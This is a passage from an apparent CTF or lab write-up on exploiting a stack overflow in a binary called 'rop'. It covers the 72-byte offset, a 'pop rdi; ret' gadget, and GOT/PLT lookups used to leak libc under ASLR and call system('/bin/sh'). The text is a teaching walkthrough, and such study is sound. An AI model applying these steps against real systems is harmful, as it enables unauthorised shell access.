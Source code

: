 To spawn a shell, I will call system("/bin/sh"). 
To call system("/bin/sh") following steps are required:
* overwrite 72 bytes
* overwrite return address with rop_gadget
* place address to "/bin/sh" string on the stack
* place system address on the stack
* place exit address on the stack

In order to pass "/bin/sh" string to system, the string address must be placed in rdi. The "/bin/sh" string address will be stored on stack so we have to pop it.
Let's use ROPgadget:

```plain
# ROPgadget --binary ./rop | grep "pop rdi"
0x0000000000400613 : pop rdi ; ret
```

This is exactly what we need.

Since ALSR is on, the libc address will be different each time the program is started. This means that the address of the system function and the "/bin/sh" string will be different.
So our first task is to gain current libc address.

## Leaking the libc address

The program uses write function from libc and we also use this function to leak the libc address.

write offset in GOT table:

```plain
# objdump -R rop

rop:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE 
0000000000600ff0 R_X86_64_GLOB_DAT  __libc_start_main@GLIBC_2.2.5
0000000000600ff8 R_X86_64_GLOB_DAT  __gmon_start__
0000000000601018 R_X86_64_JUMP_SLOT  write@GLIBC_2.2.5
0000000000601020 R_X86_64_JUMP_SLOT  read@GLIBC_2.2.5
```

write offset in PLT table:

```plain
# objdump -d -M intel rop | grep "write@plt"
0000000000400430 <write@plt>:
  400551:	e8 da fe ff ff       	call   400430 <write@plt>
  400576:	e8 b5 fe ff ff       	call   400430 <write@plt>

```

What we want to do here is to load the address of a write function from GOT table to rdi and then print that address by calling the write function.

This is a write function:
